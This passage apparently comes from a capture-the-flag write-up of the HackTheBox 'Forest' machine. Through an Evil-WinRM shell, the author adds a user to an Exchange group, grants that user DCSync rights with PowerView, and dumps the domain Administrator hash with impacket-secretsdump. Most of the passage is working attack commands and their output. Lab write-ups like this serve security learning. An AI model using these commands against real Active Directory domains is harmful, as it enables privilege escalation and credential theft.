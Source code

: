 
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group | findstr "*Exchange Windows Permissions"
*Exchange Servers
*Exchange Trusted Subsystem
*Exchange Windows Permissions
*ExchangeLegacyInterop

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group "Exchange Windows Permissions" s3ntrysec /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user s3ntrysec | findstr "Exchange Windows Permissions"
Global Group memberships     *Exchange Windows Perm*Domain Users
```

I import powerview to the machine

```
$ cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> upload PowerView.ps1 
Info: Uploading /home/linux/Desktop/forest/content/PowerView.ps1 to C:\Users\svc-alfresco\Desktop\bh\PowerView.ps1

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> . .\PowerView.ps1
```

Then following the guide that bloodhound shows I'll abuse the write dacl permission

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\s3ntrysec', $SecPassword)

```

the last part gives a bit of a problem to solve it is just define the dc as "DC=htb,DC=local" and the parameter PrincipalIdentity user to define the user that will receive this privilege

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity s3ntrysec -Right
s DCSync
```

after doing this now I can retrieve the hashes of other users such as administrator

```
$ impacket-secretsdump htb.local/s3ntrysec:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
